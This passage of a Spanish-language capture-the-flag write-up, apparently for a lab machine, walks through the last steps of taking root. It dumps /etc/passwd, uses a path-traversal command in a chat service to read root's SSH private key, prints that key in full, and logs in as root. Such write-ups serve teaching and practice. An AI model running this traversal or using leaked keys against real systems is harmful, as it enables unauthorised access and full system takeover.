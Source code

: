 ```bash
[SYSTEM] proxy❌ 13:13:proxy:/bin:/usr/sbin/nologin
[SYSTEM] www-data❌ 33:33:www-data:/var/www:/usr/sbin/nologin
[SYSTEM] backup❌ 34:34:backup:/var/backups:/usr/sbin/nologin
[SYSTEM] list❌ 38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[SYSTEM] irc❌ 39:39:ircd:/var/run/ircd:/usr/sbin/nologin
[SYSTEM] gnats❌ 41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
[SYSTEM] nobody❌ 65534:65534:nobody:/nonexistent:/usr/sbin/nologin
[SYSTEM] systemd-network❌ 100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
[SYSTEM] systemd-resolve❌ 101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
[SYSTEM] systemd-timesync❌ 102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
[SYSTEM] messagebus❌ 103:106::/nonexistent:/usr/sbin/nologin
[SYSTEM] syslog❌ 104:110::/home/syslog:/usr/sbin/nologin
[SYSTEM] _apt❌ 105:65534::/nonexistent:/usr/sbin/nologin
[SYSTEM] tss❌ 106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
[SYSTEM] uuidd❌ 107:112::/run/uuidd:/usr/sbin/nologin
[SYSTEM] tcpdump❌ 108:113::/nonexistent:/usr/sbin/nologin
[SYSTEM] landscape❌ 109:115::/var/lib/landscape:/usr/sbin/nologin
[SYSTEM] pollinate❌ 110:1::/var/cache/pollinate:/bin/false
[SYSTEM] sshd❌ 111:65534::/run/sshd:/usr/sbin/nologin
[SYSTEM] systemd-coredump❌ 999:999:systemd Core Dumper:/:/usr/sbin/nologin
[SYSTEM] patrick❌ 1000:1000:patrick:/home/patrick:/bin/bash
[SYSTEM] catherine❌ 1001:1001:catherine,,,:/home/catherine:/bin/bash
[SYSTEM] usbmux❌ 112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Probamos por si tenemos capacidad de listar archivos privilegiados y conseguimos listar la clave id_rsa de root

```bash
yorch: /file ../../root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
```

La importamos a nuestro equipo. Aplicamos privilegios 600 y nos conectamos por ssh como root. La flag la encontramos en el directorio `/root`

```bash
❯ ssh -i id_rsa root@10.10.11.118
The authenticity of host '10.10.11.118 (10.10.11.118)' can t be established.
ECDSA key fingerprint is SHA256:0rsaIiCqLD9ELa+kVyYB1zoufcsvYtVR7QKaYzUyC0Q.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.118' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 16 Dec 2022 11:42:02 AM UTC

  System load:              0.02
  Usage of /:               56.4% of 7.81GB
  Memory usage:             38%
  Swap usage:               0%
  Processes:                248
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.118
  IPv6 address for eth0:    dead:beef::250:56ff:fe96:7d2b
```